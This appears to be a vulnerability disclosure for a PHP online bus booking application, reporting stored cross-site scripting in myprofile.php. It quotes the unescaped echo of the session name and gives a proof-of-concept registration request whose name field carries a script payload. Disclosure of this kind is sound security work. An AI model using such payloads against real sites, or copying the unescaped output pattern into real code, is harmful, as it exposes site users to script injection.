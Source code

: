 
![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/88335da9-39be-4bfc-8bc7-e941e9109661)



# 6. myprofile.php Cross-site Scripting (XSS)

in myprofile.php show the info of me

But if use malicious information when registering，may cause Cross-site Scripting vulnerability


![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/a8161eec-0edb-4c35-8667-7ced789973a6)

in myprofile.php source code

```
<th>Name</th>
<td><?php echo $_SESSION['name'] ?></td>
```
![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/fafc3d91-2fa3-452a-abf0-8113d3c514b6)


Stored XSS (or Persistent) - The application stores dangerous data in a database, message forum, visitor log, or other trusted data store. At a later time, the dangerous data is subsequently read back into the application and included in dynamic content. From an attacker's perspective, the optimal place to inject malicious content is in an area that is displayed to either many users or particularly interesting users. Interesting users typically have elevated privileges in the application or interact with sensitive data that is valuable to the attacker. If one of these users executes malicious content, the attacker may be able to perform privileged operations on behalf of the user or gain access to sensitive data belonging to the user. For example, the attacker might inject XSS into a log message, which might not be handled properly when an administrator views the logs.

POC:

regist new user

name have xss payload

```
POST /register_insert.php HTTP/1.1
Host: onlinebus
Content-Length: 117
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://onlinebus
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://onlinebus/register.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jmetab2u149tgvq0m6nh6mbeh9
Connection: close

name=<script>alert(2102)</script>&email=qqq%40qq.com&Gender=M&dob=2002-02-02&password=123456&phone=2&register_submit=
```
